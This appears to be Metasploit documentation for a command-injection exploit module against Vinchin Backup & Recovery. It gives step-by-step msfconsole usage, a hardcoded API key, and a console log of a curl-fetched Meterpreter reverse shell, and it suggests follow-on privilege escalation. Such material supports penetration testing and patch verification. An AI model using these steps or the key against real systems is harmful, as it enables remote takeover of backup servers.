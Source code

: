 ## Vulnerable Application

This module exploits a vulnerability in Vinchin Backup & Recovery versions 5.0.x, 6.0.x, 6.7.x, and 7.0.x. To prepare the environment:

1. Download Vinchin Backup & Recovery version 5.0.x, 6.0.x, 6.7.x, or 7.0.x.
2. Install the software on a Linux-based server using the downloaded ISO.
3. During the installation, ensure that the network interface is active and configured.
4. After installation, verify that the Vinchin Backup & Recovery service is operational and accessible over the network.

*Note: The module is designed to work with the specified versions. Functionality with other versions has not been confirmed.*

## Verification Steps

1. Install a vulnerable version of Vinchin Backup & Recovery (versions 5.0.x, 6.0.x, 6.7.x, or 7.0.x).
2. Start msfconsole in your Metasploit environment.
3. Do: `use exploit/linux/http/vinchin_backup_recovery_cmd_inject`
4. Set the RHOSTS to the target IP address or hostname.
5. Do: `run`
6. If the target is vulnerable, the exploit will execute the specified payload or command.

## Options

Here are the specific options for the `exploit/linux/http/vinchin_backup_recovery_cmd_inject` module:

#### RHOSTS

- **Description**: Specifies the target address or range of addresses.
- **Default Value**: None. It must be set by the user.

#### RPORT

- **Description**: The port on which the Vinchin Backup & Recovery service is running.
- **Default Value**: 443 (this is not configurable in the default Vinchin Backup & Recovery setup).

#### SSL

- **Description**: Specifies whether to use SSL for the connection.
- **Default Value**: True, as Vinchin typically runs over HTTPS.

#### TARGETURI

- **Description**: The base path to the Vinchin Backup & Recovery application.
- **Default Value**: `/`

#### APIKEY

- **Description**: The hardcoded API key required to authenticate to the API.
- **Default Value**: `6e24cc40bfdb6963c04a4f1983c8af71`

## Scenarios

### Successful Exploitation against Vinchin Backup & Recovery 7.0.1.26282

This scenario demonstrates exploiting the Vinchin Backup & Recovery version 7.0.1.26282 on a Linux server.

**Environment**:
- Vinchin Backup & Recovery 7.0.1.26282
- Linux Server
- Metasploit Framework

**Steps**:

1. Start `msfconsole`.
2. Load the exploit module:
```
use exploit/linux/http/vinchin_backup_recovery_cmd_inject
```
4. Set the required options:
```
set RHOSTS [target IP]
set APIKEY [API Key]
```
5. Optionally set a payload and configure LHOST and LPORT.
6. Execute the exploit:
```
exploit
```

**Expected Output**:

```
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > options

Module options (exploit/linux/http/vinchin_backup_recovery_cmd_inject):

   Name       Current Setting               Required  Description
   ----       ---------------               --------  -----------
   APIKEY     6e24cc40bfdb6963c04a4f1983c8  yes       The hardcoded API key
              af71
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:
                                                      port][...]
   RHOSTS                                   yes       The target host(s), see https://docs.metasploit.co
                                                      m/docs/using-metasploit/basics/using-metasploit.ht
                                                      ml
   RPORT      443                           yes       The target port (TCP)
   SSL        true                          no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                  no        Path to a custom SSL certificate (default is rando
                                                      mly generated)
   TARGETURI  /                             yes       The base path to the Vinchin Backup & Recovery app
                                                      lication
   URIPATH                                  no        The URI to use for this exploit (default is random
                                                      )
   VHOST                                    no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                        address on the local machine or 0.0.0.0 to listen on all address
                                       es.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting            Required  Description
   ----                ---------------            --------  -----------
   FETCH_COMMAND       CURL                       yes       Command to fetch payload (Accepted: CURL, FT
                                                            P, TFTP, TNFTP, WGET)
   FETCH_DELETE        false                      yes       Attempt to delete the binary after execution
   FETCH_FILENAME      JSSwiKfcOw                 no        Name to use on remote system when storing pa
                                                            yload; cannot contain spaces.
   FETCH_SRVHOST                                  no        Local IP to use for serving payload
   FETCH_SRVPORT       8080                       yes       Local port to use for serving payload
   FETCH_URIPATH                                  no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /usr/share/nginx/vinchin/  yes       Remote writable dir to store payload; cannot
                       tmp                                   contain spaces.
   LHOST               192.168.1.5                yes       The listen address (an interface may be spec
                                                            ified)
   LPORT               4444                       yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > set rhosts 192.168.1.3
rhosts => 192.168.1.3
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > check

[*] Detected Vinchin version: 7.0.1.26282
[+] 192.168.1.3:443 - The target is vulnerable.
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected Vinchin version: 7.0.1.26282
[+] The target is vulnerable.
[*] Sending stage (3045380 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 192.168.1.3:58960) at 2023-11-21 02:00:57 +0100

meterpreter > sysinfo 
Computer     : localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```

Note: All instances of this exploit can be subject to privilege escalation using the
`exploits/linux/local/cve_2021_4034_pwnkit_lpe_pkexec` module in the Metasploit environment.
